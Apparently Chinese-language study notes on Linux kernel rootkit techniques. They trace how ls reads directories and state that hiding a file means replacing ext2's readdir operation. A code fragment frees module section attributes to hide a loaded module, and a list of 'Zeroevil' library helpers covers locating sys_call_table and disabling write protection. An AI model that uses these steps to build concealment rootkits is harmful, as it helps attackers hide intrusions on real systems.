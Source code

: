  下面归纳下ls执行的整个流程：
假设当前目录在ext2文件系统上，ls要查看当前目录下的文件，
1.open打开当前目录的句柄，这个句柄对应内核中一个file结构。
  file结构中的file_operations函数集从inode结构中获得，就是ext2_file_operations
2.getdents64调用file->f_op->readdir()实际上是调用了ext2_file_operations中的readdir()，
  由ext2文件系统驱动读取当前目录下面的文件项。

我们要隐藏一个文件，要做的就是替换file->f_op->readdir()，也就是替换ext2_file_operations中的readdir()。 



**tidy()**

```
static inline void
tidy(void)
{
//	kfree(THIS_MODULE->notes_attrs);
//	THIS_MODULE->notes_attrs = NULL;
	kfree(THIS_MODULE->sect_attrs);
	THIS_MODULE->sect_attrs = NULL;
//	kfree(THIS_MODULE->mkobj.mp);
//	THIS_MODULE->mkobj.mp = NULL;
//	THIS_MODULE->modinfo_attrs->attr.name = NULL;
//	kfree(THIS_MODULE->mkobj.drivers_dir);
//	THIS_MODULE->mkobj.drivers_dir = NULL;
}
```



## Zeroevil库的使用



```
unsigned long **
get_sct(void);     //获取sys_call_table地址，调用get_sct_via_sys_close

unsigned long **
get_sct_via_sys_close(void);  //暴力搜索内存空间找到地址


void
disable_wp(void)     //关闭写保护，需要上锁

void
enable_wp(void)     //开启写保护，需要上锁



void
print_process_list(void)  //打印进程列表
```



